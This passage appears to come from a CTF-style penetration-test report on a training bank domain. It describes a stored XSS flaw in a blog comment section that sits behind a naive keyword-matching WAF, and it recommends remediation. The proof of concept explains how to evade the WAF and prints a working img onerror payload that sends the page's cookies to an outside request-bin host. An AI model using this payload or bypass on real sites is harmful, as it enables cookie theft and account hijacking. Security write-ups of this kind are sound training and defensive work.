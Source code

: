 Implement a whitelist to sanitise user input at both the client and server side through a well supported library such as `jsoup` or `DOMPurify`. All input must be sanitized and when appended onto the DOM, ensure that the user input is inserted as text rather than raw HTML. If user input is appended on the client side, using the `innerHTML` attribute should be avoided at all times as this poses the risk to potential XSS attacks. Instead, using the `innerText` method or `document.createTextNode` to append user input to the DOM is highly suggested. Furthermore, a Content-Security-Policy (CSP) should be in place to avoid the execution of untrusted resources. The CSP should utilise a randomly generated nonce each time a page is reloaded and have policies to be as strict as possible. When implementing CSP headers, avoiding using `unsafe-inline` or `unsafe-eval` as this enables inline JavaScript to be executed.

## P2 HIGH - Stored XSS in Comment Section behind WAF

**Asset Domain:** science-today.quoccabank.com via ctfproxy2.quoccabank.com

**Severity Classification:** P2 - High Risk

### Vulnerability Details

A stored XSS vulnerability exists in the comment section of the `science-tomorrow` blog which is almost identical to the stored XSS vulnerability in `science-today.quoccabank.com`. 

### Proof of Concept / Steps to Reproduce

See the Proof of Concept for the Stored XSS vulnerability in `science-today`. Reproduction steps are identical to the non proxied variant albeit with the addition of a WAF bypass.

1. Some adjustments must be made to contend with a new obstacle with the flawed "HackShield" WAF implemented at the `ctfproxy2` level.  The WAF uses simple term matching to block what it sees as malicious requests. These rules can be easily evaded by taking advantage of lesser known "malicious" JavaScript constructs such as `eval(window.atob())` or `location.href`.

2. Otherwise, exploitation follows exactly as in `science-today` which allows us to leak the `flag` cookie by using the following payload and reporting the filtered page.

   ```html
   <img src="x" onerror="location.href='http://requestbin.net/r/gngcllan?c='+btoa(document.cookie)"></img>
   ```

### Impact

Impacts are the same as what was mentioned in **P2 HIGH - Stored XSS in Comment Section**. However, due to the implementation of the "HackShield" WAF at `ctfproxy2` level, the severity of this vulnerability is lower when compared to its counterpart as the WAF in place provides some basic security over user input.  

### Remediation

Remediations to this vulnerability are the same as what was mentioned in **P2 HIGH - Stored XSS in Comment Section**. However, one major recommendation is the adoption of a commercial WAF in place of the current home-brew solution. Often, commercial WAFs are well-tested and developed with high levels of security in mind. Furthermore, usage of input sanitization libraries such as `jsoup` and `DOMPurify` ensures that XSS vulnerabilities are minimised.
